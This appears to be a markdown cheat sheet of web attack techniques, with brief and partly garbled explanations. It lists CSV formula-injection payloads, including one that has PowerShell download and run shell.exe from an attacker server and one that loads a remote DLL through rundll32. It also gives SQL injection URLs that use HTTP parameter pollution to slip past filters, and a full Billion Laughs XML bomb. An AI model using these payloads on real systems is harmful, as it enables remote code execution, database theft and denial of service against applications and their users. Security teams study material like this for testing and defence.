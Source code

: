 Formula injection:
====
when web application is processing user supplied data in EXPORT functionality spread sheet.

>>> OR
                          
CSV Injection occurs when the data injection occurs when the data in a spreadsheet cell is not properly validated prior to export. 
The attacker usually injects a malicious payload (formula) into the input field.
Once the data is exported, the spreadsheet executes the malicious payload on the assumption of a standard macro.

<h3>Payload:</h3>
           
           DDE ("cmd";"/C calc";"!A0")A0
           @SUM(1+9)*cmd|' /C calc'!A0
           =10+20+cmd|' /C calc'!A0
           =cmd|' /C notepad'!'A1'
           =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
           =cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

<h3>Mass Assignment</h3>
    
 When there are 2 parameters and the user insert the third un-recognised parameter and aceepted without validating is described as Mass assignment.h3
 
 <h3>HTTP Parameter Pollution</h3>
  
  HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. 
   For example:
   
   Regular attack: 
   
             http://webApplication/showproducts.asp?prodID=9 UNION SELECT 1,2,3 FROM Users WHERE id=3 —

Attack using HPP: 

        http://webApplication/showproducts.asp?prodID=9 /*&prodID=*/UNION /*&prodID=*/SELECT 1 &prodID=2 &prodID=3 FROM /*&prodID=*/Users /*&prodID=*/ WHERE id=3 —- -
    
 <h3>XML Billion Laugh Attack</h3>
 
 The Billion Laughs attack is a denial-of-service attack that targets XML parsers. The Billion Laughs attack is also known as an XML bomb, or more esoterically, the exponential entity expansion attack. A Billion Laughs attack can occur even when using well-formed XML and can also pass XML schema validation.

The vanilla Billion Laughs attack is illustrated in the XML file represented below.

            <?xml version="1.0"?>
            <!DOCTYPE lolz [
            <!ENTITY lol "lol">
            <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
            <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
            <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
            <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
            <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
            <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
            <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
            <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
            ]>
            <lolz>&lol9;</lolz>

